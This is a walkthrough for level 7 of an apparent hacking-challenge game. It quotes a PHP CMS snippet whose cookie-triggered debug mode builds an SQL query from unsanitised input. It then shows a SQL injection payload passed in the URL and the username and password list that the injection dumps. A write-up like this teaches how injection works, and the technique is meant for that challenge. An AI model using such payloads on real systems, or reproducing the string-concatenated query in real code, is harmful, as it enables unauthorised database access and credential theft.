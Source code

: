 #### Level 07 - Illuminati's secret web

Let's take a look at that incredible CMS:

http://www.hacmegame.org/hacmegame/files/cms.php.txt

This is the critical code:
```php
$MODE_CMS_DEBUG = (CmsSetting::get('debug-mode') || CmsUtil::parseToBool($_COOKIE['cms-debug-mode'])) ? true : false;
if($MODE_CMS_DEBUG){
   if($_GET['debug_username'])
      echo "<!-- " . DatabaseHandler::debugResultToString(DatabaseHandler::query("SELECT * FROM user WHERE username='" . $_GET['debug_username'] . "';")) - " -->";
}
```

Make a cookie named `cms-debug-mode` with value "1". Then add to the url in the address bar: ?debug_username=' or '1'='1

Like this: www.hacmegame.org/hacmegame/challenges/ChallengeS8.html?debug_username='%20or%20'1'='1

Hit enter.

Now should I found this in the source:
```html
<!-- id: 1 - username: tsjernenko - password: kEk8TzV7
id: 2 - username: nikita - password: JohsXDfD
id: 3 - username: vladimir - password: rNfzqT1i
id: 4 - username: gorbachev - password: oXsas4pX
id: 5 - username: brezhnev - password: OiWV5zSt
id: 6 - username: vladimir - password: RgACvrlN
id: 7 - username: georgij - password: iUNKbEJh
id: 8 - username: nikita - password: v8XNcfBI
id: 9 - username: konstantin - password: en580sp0
id: 10 - username: konstantin - password: fD6XFCni
 -->
```

Login and have fun!